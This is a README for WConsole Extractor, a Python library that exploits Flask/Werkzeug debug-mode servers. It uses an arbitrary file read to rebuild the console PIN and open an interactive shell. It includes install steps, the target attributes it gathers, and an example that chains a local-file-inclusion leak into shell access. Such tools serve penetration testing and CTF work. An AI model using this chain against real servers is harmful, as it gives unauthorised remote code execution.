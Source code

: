 <h1 align="center">Welcome to WConsole Extractor 👋</h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.1-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  <a href="https://twitter.com/Ruulian_" target="_blank">
    <img alt="Twitter: Ruulian_" src="https://img.shields.io/twitter/follow/Ruulian_.svg?style=social" />
  </a>
</p>

> Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode. Moreover, you can call the `shell` function to obtain an interactive shell.

## ✨ Demo

![example_gif](.github/example.gif)

## 🔨 Install

### From PyPi

**Global installation**:

```sh
pip3 install wconsole-extractor
```

**Python virtual environment**:

```sh
python3 -m venv env
source env/bin/activate
pip3 install wconsole-extractor

# Deactivate environment
deactivate
```

### Installation from repository

**Global installation**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
pip3 install .
```

**Python virtual environment**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
python3 -m venv env
source env/bin/activate
pip3 install .

# Deactivate environment
deactivate
```

## 📚 Documentation

**Note**: The target operating system must be a Linux distribution.

### Prerequisites

In order to use correctly the library, you need to have an arbitrary file read on the target and implement it in python.

You must write a function that takes a filename as parameter and returns the content of the file on the target. If the file is not found, the function should return an **empty string**.

### Available attributes

From `WconsoleExtractor` instance, you can access mutiple attributes:

```py
# Target information
extractor.target               # Specified target
extractor.base_url             # Target base url
extractor.hostname             # hostname

# Versions
extractor.python_version       # Python version
extractor.werkzeug_version     # Werkzeug version

# Probably public bits
extractor.username             # User who launched the application
extractor.flask_path           # Flask installation path
extractor.modname              # Constant "flask.app"
extractor.class_name           # Constant "Flask"
extractor.probably_public_bits # Probably public bits [username, modname, class_name, flask_path]

# Private bits
extractor.machine_id           # Machine id
extractor.uuidnode             # MAC address in decimal
extractor.private_bits         # private bits

# Post process information
extractor.pin_code             # Werkzeug PIN CODE
extractor.token                # Werkzeug console token (available in HTML source code)

# Functions
extractor.shell()              # Get interactive shell
```

### Example

```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function
)


info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
```

## Author

👤 **Ruulian**

* Website: https://ruulian.me
* Twitter: [@Ruulian_](https://twitter.com/Ruulian_)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/Ruulian/wconsole_extractor/issues). 

## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

This project is [MIT](https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE) licensed.

***
_This README was generated with ❤️ by [readme-md-generator](https://github.com/kefranabg/readme-md-generator)_